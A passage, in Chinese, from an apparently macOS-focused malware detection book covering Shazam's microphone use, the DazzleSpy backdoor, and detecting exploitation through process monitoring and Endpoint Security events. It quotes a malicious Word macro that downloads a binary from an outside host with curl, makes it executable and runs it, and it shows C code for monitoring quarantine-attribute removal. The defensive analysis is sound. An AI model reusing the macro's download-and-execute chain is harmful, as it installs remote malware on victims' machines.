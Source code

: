 > 感谢您的联系并向我们报告这个问题。iOS 和 Mac 应用程序使用共享的 SDK，因此您在 Mac 上看到的持续录音情况。我们在 iOS 上使用这种持续录音是为了性能优化，帮助我们为用户提供更快速的歌曲匹配。

虽然 Shazam 最初忽视了我的担忧，但当媒体介入后，它改变了态度，发布了诸如“Shazam 总是在监听你所做的一切”^(1) 和“嘘！Shazam 总是在监听——即使它已经被‘关闭’”^(2) 等标题的报道。对此，Shazam 推出了一个更新，使得当应用被切换到关闭状态时，麦克风会被关闭^(3)。（然而，显然没有什么叫做坏公关；第二年，苹果以 4 亿美元收购了 Shazam。）

我设计了 OverSight 来检测具有麦克风和摄像头间谍功能的恶意软件，如 FruitFly、Crisis 和 Mokes，但其不针对恶意软件的启发式方法证明了极高的通用性，还能够识别一个主要的隐私问题。

接下来，我们将考虑一个更常见的恶意软件检测示例。

### DazzleSpy 检测

DazzleSpy 是本书中多次提到的恶意样本，它是一个很好的案例研究，因为它不是普通的常见恶意软件。这个复杂且持久的后门利用零日漏洞感染了支持香港民主运动的人士^(4)。对这款恶意软件产生兴趣后，我对其进行了自己的分析^(5)，并考虑了安全工具如何防范它以及其他复杂的 macOS 威胁。

#### 漏洞检测

本书中展示的工具和技术主要集中在检测恶意软件一旦进入 macOS 系统后的情况。然而，这些方法通常也能检测到恶意软件的初始利用向量。例如，一个构建进程层次结构的进程监视器可能能够检测到被利用的浏览器或文字处理器生成了一个恶意的子进程。这种基于启发式的漏洞检测方法尤为重要，因为高级威胁行为者越来越多地通过漏洞部署他们的恶意软件。

在我们关注 DazzleSpy 的攻击行为之前，先来看看一起利用恶意文档的攻击事件。该攻击归因于朝鲜国家级黑客，^(6) 该 Word 文件包含能够利用 macOS 系统持久性安装后门的宏代码。以下是恶意代码的一部分：

```
sur = "https://nzssdm.com/assets/mt.dat"
spath = "/tmp/"
i = 0

Do
    spath = spath & Chr(Int(Rnd * 26) + 97)
    i = i + 1
Loop Until i > 12

system("curl -o " & spath & " " & sur)
system("chmod +x " & spath)
popen(spath, "r") 
```

你可以看到，恶意宏通过 curl 下载远程二进制文件 *mt.dat*，将其设置为可执行文件，然后使用 popen API 执行它。由于恶意宏是在 Word 环境中执行的，进程监视器会显示 curl、chmod 和 *mt.dat* 是 Word 的子进程。当然，这种行为是高度异常的，表明这是一起攻击。

就 DazzleSpy 而言，漏洞链复杂得多，但它仍然提供了几个检测的机会。作为链的一部分，一段内存中的 Mach-O 可执行代码将 DazzleSpy 后门下载到 *$TMPDIR/airportpaird* 目录。将后门设为可执行后，它使用特权升级漏洞移除 com.apple.quarantine 扩展属性。此操作确保操作系统允许二进制文件执行，而无需提示或警告，即使它没有通过认证。

由于托管漏洞链的恶意网站早已不存在，除非我们自己搭建一个托管相同漏洞的服务器，否则很难直接测试我们的检测方法。不过，利用端点安全事件的安全工具应该能够轻松观察并甚至阻止漏洞利用 DazzleSpy 部署过程中采取的许多操作。例如，正如第九章所示，ES_EVENT_TYPE_AUTH_EXEC 事件类型提供了一种认证进程执行的机制，或许能阻止任何未认证的进程执行，特别是当父进程是浏览器时。

与删除扩展属性相关的其他端点安全事件可能会捕获或甚至阻止任何试图删除 com.apple.quarantine 的进程。示例代码 14-1 监视其中一个事件，ES_EVENT_TYPE_NOTIFY_DELETEEXTATTR，以检测任何扩展属性的移除。

```
es_client_t* client = NULL;
es_event_type_t events[] = {ES_EVENT_TYPE_NOTIFY_DELETEEXTATTR}; ❶

es_new_client(&client, ^(es_client_t* client, const es_message_t* message) {
    if(ES_EVENT_TYPE_NOTIFY_DELETEEXTATTR == message->event_type) { ❷
        es_string_token_t* procPath = &message->process->executable->path;
        es_string_token_t* filePath = &message->event.deleteextattr.target->path;
        const es_string_token_t* extAttr = &message->event.deleteextattr.extattr;

        printf("ES_EVENT_TYPE_NOTIFY_DELETEEXTATTR\n");
        printf("xattr: %.*s\n", (int)extAttr->length, extAttr->data);
        printf("target file path: %.*s\n", (int)filePath->length, filePath->data);
        printf("responsible process: %.*s\n", (int)procPath->length, procPath->data);
    }
});
es_subscribe(client, events, sizeof(events)/sizeof(events[0])); 
```
